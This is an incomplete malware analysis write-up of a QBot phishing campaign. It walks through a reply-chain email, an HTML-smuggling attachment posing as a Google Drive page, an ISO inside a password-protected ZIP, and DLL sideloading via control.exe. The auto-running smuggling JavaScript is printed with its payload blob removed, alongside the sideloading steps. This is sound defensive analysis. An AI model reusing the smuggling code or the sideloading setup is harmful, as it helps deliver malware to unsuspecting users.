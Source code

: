 # Malicious (QBot)

QBot (QakBot) is a Trojan that has been active for years. It was originally malware designed to target governments and businesses for financial fraud by stealing user credentials and keystrokes, but time has moved on since then. We have recently seen an example of this targeting my employee network, so I decided to take a closer look and perform a deep analysis on this sample to see which techniques this new version uses.



## Stage 01 - Email

The email that was received by one of the employees is referencing some valid old email conversation from the target user. I've seen this technique before; it is mainly to gain credibility. However, if you check closely, the original email is from 2019, but I guess it is easy to miss. The source of the email conversion is most probably from a data leak or a compromised laptop. It is not a very good phishing attempt; it screams problems left and right, but I guess they are going for quantity, not quality. The interesting piece is the password-protected zip attachment (basic techniques to bypass malicious file filtering).

![Alt text](data/qbot_email.png?raw=true "Email sample")

## Stage 02 - HTML Attachment

Le't check the attachment.

![Alt text](data/email.png?raw=true "Document details")

It is an HTML file that mimics the GDrive page (using a screenshot that is directly encoded in the code), asking the user to download the file and open it. The file is password-protected to avoid detection on the way.

The HTML file also executes the download of the zip file automatically. The file is also packed directly into the HTML file, so no data need to be downloaded from the Internet.

```
<script language="javascript">
	var zVGUi3zP = document.getElementById('zVGUi3zP').innerText;
	function ready() {
		QqEJCIyy();
    }
	document.addEventListener("DOMContentLoaded", ready);
	zVGUi3zP = document.getElementById('zVGUi3zP').innerText;
	function th418Cpm()
	{
		const KQnNdBZQ = document.querySelector("#N5JP6xfc");
		return KQnNdBZQ.dataset.reminder;
	}
	function QqEJCIyy()
	{
		var TEnDd49w = document.createElement("embed");
		TEnDd49w.setAttribute("width", 120);
		TEnDd49w.setAttribute("height", 120);
		TEnDd49w.setAttribute("id", "cCfHr4vH");
		TEnDd49w.setAttribute("src", "data:image/svg+xml;base64," + zVGUi3zP + th418Cpm());
		document.body.appendChild(TEnDd49w);
	}
</script>
```

The HTML contains three base64 blobs - one is the screenshot used in the fake website, and the other two are later concatenated into one base64 blob. A new document element is created from that as `data:image/svg+xml;base64`. Let's check what is inside.

```
<script>
<![CDATA[
  function get_zip_date(base_64_blob, 512) {
    var YTbnoJHC = [];
    var decoded_blob = atob(base_64_blob);
    for(var i = 0; i < decoded_blob.length; i += 512) {
      var eVcLGshY = decoded_blob.slice(i, i + 512);
      var vZIZ2Kme = new Array(eVcLGshY.length);

      for(var j = 0; j < eVcLGshY.length; j++) {
        vZIZ2Kme[j] = eVcLGshY.charCodeAt(j);
      }
      var JkT5zYmW = new Uint8Array(vZIZ2Kme);
      YTbnoJHC.push(JkT5zYmW);
    }
    var zip_data = new Blob(YTbnoJHC, {type: "application/zip"});
    return zip_data;
  }
  function gdhpoIyu(zip_data) {
    let okVLUB9x = new File([zip_data], "attachment.zip", {type: "application/zip"});
    let WRQWQcyt = URL["createObjectURL"](okVLUB9x);
    window.location.assign(WRQWQcyt);
    URL.revokeObjectURL(WRQWQcyt);
  }
  var base_64_blob = "======DATA====="
  var zip_data = get_zip_date(base_64_blob, 512);
  gdhpoIyu(zip_data);
]]>
</script>
```

We are dealing with a similarly structured file. This time it is with one blob, a little bit more obfuscated script code. You can see deobfuscated function, which basically takes the blob with ZIP file data and decodes it from base64 and serves it as a zip file download.

## Stage 03 - Downloaded ZIP file and following file

The ZIP file is, as described in the email, password-protected, and after unpacking, it contains an ISO file.

```
Directory of C:\Users\labuser\Downloads\Qbot
11/28/2022  09:17 AM    <DIR>          .
11/28/2022  09:17 AM    <DIR>          ..
11/25/2022  09:54 AM         2,031,616 RNP_45105051_14112022.iso
              1 File(s)      2,031,616 bytes
```

The ISO file finally contains something interesting. Only file without `hidden` tag is `RNP_45105051_14112022.lnk`, the rest with.

```
E:\>dir /a
 Directory of E:\
11/27/2021  11:01 PM           149,504 control.exe
11/14/2022  06:37 AM             8,192 edputil.dll
11/09/2022  07:17 AM           608,248 msoffice32.dll
11/10/2022  07:17 AM             1,689 RNP_45105051_14112022.lnk
               4 File(s)        767,633 bytes
```

![Alt text](data/vt_control.png?raw=true "Email sample")

`control.exe` is a valid MS application, so the problem is coming from a different side and that is the dlls which are bundled with the exe. And how does it work? The LNK file is executing following `C:\Windows\System32\cmd.exe /c control.exe`. This will start the `control.exe` from the current folder. A new window with Control Panel will appear and also it will try to load the DLLs needed for the execution. As per default settings of Microsoft Windows, the first location to search for the dll is the current directory, the DLL `msoffice32.dll` is loaded and executed. This dll is the malicious part in the puzzle.

This technique is call DLL Sideloading. You can read more about it for example here https://businessinsights.bitdefender.com/tech-explainer-what-is-dll-sideloading.

## Stage 04

TBA

## Prevention

## Reading and References
